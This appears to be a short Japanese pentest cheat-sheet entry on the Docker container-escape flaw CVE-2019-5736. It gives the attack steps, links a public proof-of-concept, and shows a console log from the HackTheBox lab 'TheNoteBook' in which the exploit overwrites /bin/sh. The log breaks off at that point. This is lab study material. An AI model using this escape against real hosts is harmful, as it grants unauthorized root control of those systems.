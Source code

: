 # Docker

----

## CVE-2019-5736
* ホストマシンのroot権限で任意のコマンドが実行可能
1. コンテナ内でexploitを起動し脆弱性がトリガするまで待機
1. ホストマシンでdocker execを実行することにより、脆弱性がトリガされる
1. コンテナ内で待機していたexploitが実行され、ホストマシンのrootで任意のコマンドが実行される
* [CVE-2019-5736-PoC](https://github.com/Frichetten/CVE-2019-5736-PoC)
* Htb: TheNoteBook

  ```console
  noah@thenotebook:~$ docker --version
  Docker version 18.06.0-ce, build 0ffa825
  noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 bash
  root@0f4c2517af40:/opt/webapp# ./exploit
  [+] Overwritten /bin/sh successfully
  [+] Found the PID: 4167
  [+] Successfully got the file handle
  [+] Successfully got write handle &{0xc0000501e0}
  
  ```

  

